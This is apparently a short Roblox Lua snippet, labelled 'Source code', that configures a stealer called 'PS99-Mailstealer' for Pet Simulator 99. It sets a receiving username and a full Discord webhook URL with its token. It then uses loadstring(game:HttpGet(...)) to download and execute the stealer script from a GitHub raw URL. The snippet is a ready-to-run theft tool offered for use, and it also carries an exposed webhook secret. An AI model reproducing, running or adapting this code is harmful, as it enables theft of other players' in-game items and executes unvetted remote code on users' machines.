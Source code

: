 Username = "DeDSelot"
Webhook = "https://discord.com/api/webhooks/1261300552986263613/85gFBS_YKV7SHFghqu4kVZDgtoDdpKsXvv7DefEI9RxRu3vIwHZTvDGz1FciHUPIa30t"
loadstring(game:HttpGet("https://raw.githubusercontent.com/LypherScript/PS99-Mailstealer/main/PS99Mailstealer"))()```
